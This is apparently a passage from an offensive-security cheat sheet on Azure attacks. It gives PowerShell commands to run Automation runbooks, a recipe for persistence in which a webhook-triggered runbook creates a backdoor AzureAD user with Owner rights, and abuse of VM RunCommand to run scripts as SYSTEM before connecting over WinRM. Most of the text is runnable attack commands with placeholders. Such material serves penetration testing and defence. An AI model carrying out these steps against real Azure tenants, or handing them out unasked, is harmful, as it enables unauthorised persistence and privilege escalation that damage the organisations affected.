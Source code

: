 ```powershell

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```

### Persistence via Automation accounts

* Create a new Automation Account
    * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
    * Sample runbook for this Blog located here – https://github.com/NetSPI/MicroBurst
    * Publish the runbook
    * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
    * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Eventually lose your access…
* Trigger the webhook with a post request to create the new user
    ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```


## Virtual Machine RunCommand

Requirements: 
* `Microsoft.Compute/virtualMachines/runCommand/action`

```powershell
# Get Public IP of VM : query the network interface
PS AzureAD> Get-AzVM -Name <RESOURCE> -ResourceGroupName <RG-NAME> | select -ExpandProperty NetworkProfile
PS AzureAD> Get-AzNetworkInterface -Name <RESOURCE368>
PS AzureAD> Get-AzPublicIpAddress -Name <RESOURCEIP>

# Execute Powershell script on the VM
PS AzureAD> Invoke-AzVMRunCommand -VMName <RESOURCE> -ResourceGroupName <RG-NAME> -CommandId 'RunPowerShellScript' -ScriptPath 'C:\Tools\adduser.ps1' -Verbose

# Connect via WinRM
PS C:\Tools> $password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
PS C:\Tools> $creds = New-Object System.Management.Automation.PSCredential('username', $Password)
PS C:\Tools> $sess = New-PSSession -ComputerName <IP> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
PS C:\Tools> Enter-PSSession $sess
```

> Allow anyone with "Contributor" rights to run PowerShell scripts on any Azure VM in a subscription as NT Authority\System
